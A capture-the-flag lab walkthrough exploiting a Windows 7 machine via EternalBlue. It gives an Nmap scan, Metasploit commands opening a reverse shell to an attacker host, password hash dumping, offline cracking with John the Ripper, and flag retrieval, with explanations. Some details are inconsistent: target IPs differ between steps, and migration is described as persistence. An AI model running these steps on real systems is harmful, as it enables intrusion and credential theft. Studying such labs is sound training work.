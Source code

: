 # **Step-by-Step Analysis of Windows 7 EternalBlue Exploitation**  

---

### **1. Initial Reconnaissance with Nmap**  
**Command:**  
```bash
nmap -sV -vv --script vuln 10.10.27.187
```  
**Findings:**  
- Open ports:  
  - **135/tcp** (MSRPC)  
  - **139/tcp** (NetBIOS)  
  - **445/tcp** (SMB)  
  - **3389/tcp** (RDP)  
  - High-numbered RPC ports (49152-49160)  
- OS: **Windows 7 Professional 7601 Service Pack 1 x64**  
- **Critical Vulnerability:** `MS17-010 (EternalBlue)`  

> **Explanation:**  
> This command performs a verbose (-vv) version scan (-sV) on the target IP and runs vulnerability scripts (`--script vuln`) to detect known weaknesses. Nmap identifies SMB (port 445) is open and vulnerable to EternalBlue (MS17-010), which is a serious remote code execution flaw in Microsoft's SMB protocol.

---

### **2. Exploitation with Metasploit**  
#### **Setting Up the Exploit**  
```bash
msfconsole  
search ms17  
use exploit/windows/smb/ms17_010_eternalblue  
set payload windows/x64/shell/reverse_tcp  
set LHOST 10.17.7.111  
set LPORT 4444  
set RHOSTS 10.10.20.168  
run  
```  

> **Explanation:**  
> Here, Metasploit Framework (`msfconsole`) is used to launch the EternalBlue exploit module. You select an appropriate payload (reverse shell for 64-bit Windows) and configure the listener's IP and port (`LHOST`, `LPORT`). `RHOSTS` is the target IP. Running the exploit attempts to trigger the vulnerability and open a reverse shell back to the attacker machine.

#### **Successful Exploitation**  
- Established a **reverse shell** as **NT AUTHORITY\SYSTEM**  
- **Meterpreter session opened** (`10.17.7.111:4444 → 10.10.20.168:49179`)  

> **Explanation:**  
> The reverse shell connects back from the victim to attacker, giving the attacker a command shell with SYSTEM privileges — the highest level on Windows. Meterpreter is an advanced shell provided by Metasploit that allows more complex interaction with the target.

---

### **3. Post-Exploitation Activities**  
#### **Upgrading Shell to Meterpreter**  
```bash
background  
use post/multi/manage/shell_to_meterpreter  
set session 1  
run  
```  
- **New Meterpreter session (ID: 2)** opened on port **4433**  

> **Explanation:**  
> The initial shell might be a basic command shell. Upgrading it to Meterpreter provides more control and functionality. This post-exploitation module converts the existing shell session into a Meterpreter session.

#### **Checking Active Sessions**  
```bash
sessions  
```  
**Output:**  
```
Active sessions
===============
  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         shell x64/windows        Shell Banner: Microsoft...  10.17.7.111:4444 → 10.10.20.168:49179
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.17.7.111:4433 → 10.10.20.168:49202
```  

> **Explanation:**  
> Lists all active sessions; confirms the Meterpreter session is running alongside the initial shell.

#### **Migrating to a Stable Process**  
```bash
sessions -i 2  
ps  
migrate 1304  # (spoolsv.exe - a stable SYSTEM process)  
getuid  
```  
**Output:**  
```
Server username: NT AUTHORITY\SYSTEM  
```  

> **Explanation:**  
> Migrating to a stable system process like `spoolsv.exe` helps keep the session alive if the original exploited process crashes or is closed. `getuid` confirms that the session still runs with SYSTEM privileges.

---

### **4. Dumping Password Hashes**  
```bash
hashdump  
```  
**Output:**  
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::  
```  

> **Explanation:**  
> The `hashdump` command extracts NTLM password hashes from the system’s Security Account Manager (SAM) database. These hashes can be cracked offline to recover plaintext passwords.

#### **Cracking Jon’s Password with John the Ripper**  
```bash
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hashblue  
john hashblue --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  
```  
**Cracked Password:** `alqfna22`  

> **Explanation:**  
> The extracted hash is saved into a file and cracked using John the Ripper with a popular password wordlist (rockyou.txt). This recovers the actual password `alqfna22` for the user Jon.

---

### **5. Finding the Flags**  
#### **Flag 1 (Basic Access)**  
```bash
cd C:\  
cat flag1.txt  
```  
**Output:**  
`flag{access_the_machine}`  

#### **Flag 2 (SAM Database Access)**  
```bash
cd C:\windows\system32\config  
cat flag2.txt  
```  
**Output:**  
`flag{sam_database_elevated_access}`  

#### **Flag 3 (User Documents)**  
```bash
cd C:\users\Jon\Documents  
cat flag3.txt  
```  
**Output:**  
`flag{admin_documents_can_be_valuable}`  

> **Explanation:**  
> The flags are placed in typical locations to validate different privilege levels: basic machine access, system registry/SAM files, and user document folders. Reading these confirms full system control.

---

### **Summary of Commands Used**  
| **Action** | **Command** |
|------------|------------|
| Nmap Scan | `nmap -sV -vv --script vuln 10.10.27.187` |
| Metasploit Setup | `use exploit/windows/smb/ms17_010_eternalblue` |
| Set Payload | `set payload windows/x64/shell/reverse_tcp` |
| Set LHOST | `set LHOST 10.17.7.111` |
| Set RHOST | `set RHOSTS 10.10.20.168` |
| Run Exploit | `run` |
| Upgrade Shell | `use post/multi/manage/shell_to_meterpreter` |
| Check Sessions | `sessions` |
| Migrate Process | `migrate 1304` |
| Dump Hashes | `hashdump` |
| Crack Password | `john hashblue --format=NT --wordlist=/usr/share/wordlists/rockyou.txt` |
| Find Flag 1 | `cat C:\flag1.txt` |
| Find Flag 2 | `cat C:\windows\system32\config\flag2.txt` |
| Find Flag 3 | `cat C:\users\Jon\Documents\flag3.txt` |

---

### **Final Notes**  
- **EternalBlue (MS17-010)** allowed full system takeover.  
- **Password reuse** made cracking easy (`alqfna22`).  
- **Flags** were placed in **common privilege escalation paths**.  
- **Process migration** (`spoolsv.exe`) ensured persistence.  

This demonstrates how **unpatched systems** can be **fully compromised** with known exploits.

---

**"this is how you create this is done by deepseek after your failure"**
